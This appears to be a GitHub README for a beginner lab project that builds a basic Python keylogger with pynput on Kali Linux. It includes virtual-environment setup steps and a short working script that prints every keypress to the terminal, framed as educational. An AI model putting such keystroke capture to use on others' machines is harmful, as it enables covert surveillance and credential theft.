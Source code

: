 # Keylogger Basics – Beginner Cybersecurity Project

This project demonstrates how to build a **simple Python keylogger** using `pynput`.  
It runs on **Kali Linux** in a **safe, virtualized lab environment** and captures keystrokes for educational purposes.

⚠️ **Educational Use Only** – Do not use this on any system without explicit permission.

---

## Step 0: Set Up Python Environment

```bash
sudo apt update
sudo apt install python3-pip
pip3 install pynput
```


![Install Error](screenshots/ERROR.png)



You're seeing this error because Kali Linux has locked down system-wide Python package installations to prevent breaking your OS (per PEP 668).

 Solution: Use a Virtual Environment (Safe & Recommended)
 
Instead of installing pynput globally, create a virtual environment:

# 1. Install venv (if not installed yet)
```bash
sudo apt install python3-venv
```
# 2. Create a new virtual environment
```
python3 -m venv myenv
```
# 3. Activate the environment
```
source myenv/bin/activate
```
# 4. Install pynput safely inside it
```
pip install pynput
```
![Fix pip install error](screenshots/fix-error.png)


DONE.....

##  Step 3: Write the Keylogger Script

Create a file named `keylogger.py` and paste the following code:

```python
from pynput import keyboard

def on_press(key):
    try:
        print(f"Key pressed: {key.char}")
    except AttributeError:
        print(f"Special key pressed: {key}")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

  Screenshot:  
![Writing Keylogger in Nano](screenshots/nano%20keylogger.png)



##Step 4: Run the Keylogger

From the terminal (while still in the virtual environment), run:

```bash
python3 keylogger.py
```

Now type something to see the output in real time.

 Screenshot:  
![Keylogger Output](screenshots/keypresses.png)



## Step 5: Deactivate the Environment

After testing, deactivate the virtual environment:

```bash
deactivate
```

---

##  What You Learned

- How to use Python virtual environments securely.
- How to install and use `pynput` to capture keystrokes.
- How keyloggers function at a basic level.

---

##  Notes

- Run only in a controlled VM environment like **Kali Linux**.
- Don’t use keyloggers on live or production systems.

 (educational use only).

